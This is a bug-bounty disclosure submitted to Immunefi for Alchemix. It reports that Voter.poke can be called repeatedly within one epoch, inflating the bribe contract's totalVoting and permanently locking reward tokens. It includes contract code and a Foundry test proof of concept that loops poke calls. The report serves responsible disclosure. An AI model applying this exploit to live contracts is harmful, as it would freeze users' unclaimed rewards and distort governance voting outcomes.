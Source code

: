 
# Reward token permanent freeze due to bulk call of Poke function

Submitted on May 4th 2024 at 00:49:59 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30671

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Permanent freezing of unclaimed yield

## Description
## Brief/Intro
The poke function facilitates users to vote with the same weight for each pool in each epoch easily. The problem is that this function does not use a onlyNewEpoch modifier. As a result, an attacker could potentially call this function hundreds of times within a single epoch, and the totalVoting of bribe contract does not accurately track such actions.

## Vulnerability Details
Voting.poke function doesn't use onlyNewEpoch modifier
```
    /// @inheritdoc IVoter
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
_vote function call _reset function and the _reset function call withdraw of Bribe contract.

```
/// @inheritdoc IBribe
    function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }

    /// @inheritdoc IBribe
    function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
As you can see, in Bribe.withdraw function, totalVoting is not calcutated.
In the end, totalVoting only keeps increasing.

The totalVoting is used to calculate reward amount of a tokenId.
```
/// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        if (numCheckpoints[tokenId] == 0) {
            return 0;
        }

        uint256 _startTimestamp = lastEarn[token][tokenId];

        // Prevent earning twice within an epoch
        if (block.timestamp - _bribeStart(_startTimestamp) < DURATION) {
            return 0;
        }

        uint256 _startIndex = getPriorBalanceIndex(tokenId, _startTimestamp);
        uint256 _endIndex = numCheckpoints[tokenId] - 1;

        uint256 reward = 0;
        // you only earn once per epoch (after it's over)
        Checkpoint memory prevRewards; // reuse struct to avoid stack too deep
        prevRewards.timestamp = _bribeStart(_startTimestamp);
        uint256 _prevSupply = 1;

        if (_endIndex >= 0) {
            for (uint256 i = _startIndex; i <= _endIndex; i++) {
                Checkpoint memory cp0 = checkpoints[tokenId][i];
                uint256 _nextEpochStart = _bribeStart(cp0.timestamp);
                // check that you've earned it
                // this won't happen until a week has passed
                if (_nextEpochStart > prevRewards.timestamp) {
                    reward += prevRewards.balanceOf;
                }

                if (_startIndex == _endIndex) break;

                prevRewards.timestamp = _nextEpochStart;
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

                // Prevent divide by zero
                if (_prevSupply == 0) {
                    _prevSupply = 1;
                }
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
        }

        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
## Impact Details
- Users end up receiving less rewards than what the actual voting results would entitle them to.
- The remaining reward amount is locked forever.

Unfortunately, the bribe contract does not have a function to withdraw this remaining amount.



## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    function testBugPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        uint256 totalVoting;
        uint256 poolWeight;

        hevm.startPrank(admin);

        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        voter.distribute();

        voter.vote(tokenId, pools, weights, 0);

        poolWeight = voter.weights(sushiPoolAddress);
        totalVoting = IBribe(bribeAddress).totalVoting();
        console.log("poolWeight", poolWeight);
        console.log("totalVoting", totalVoting);
        console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        // Next epoch
        hevm.warp(block.timestamp + nextEpoch);
        voter.distribute();


        // An attacker can call poke function more than 100 times on one tx,
        // and all users will receive less reward than the actual reward value they deserve.
        // The rest of the reward token will be locked in the bribe contracts forever.
        for (uint256 i = 0; i < 5; i++) {
            voter.poke(tokenId);

            poolWeight = voter.weights(sushiPoolAddress);
            totalVoting = IBribe(bribeAddress).totalVoting();
            console.log("poke", poolWeight);
            console.log("totalVoting", totalVoting);
            console.log("totalVoting / poolWeight", totalVoting / poolWeight);
        }
    }
}
```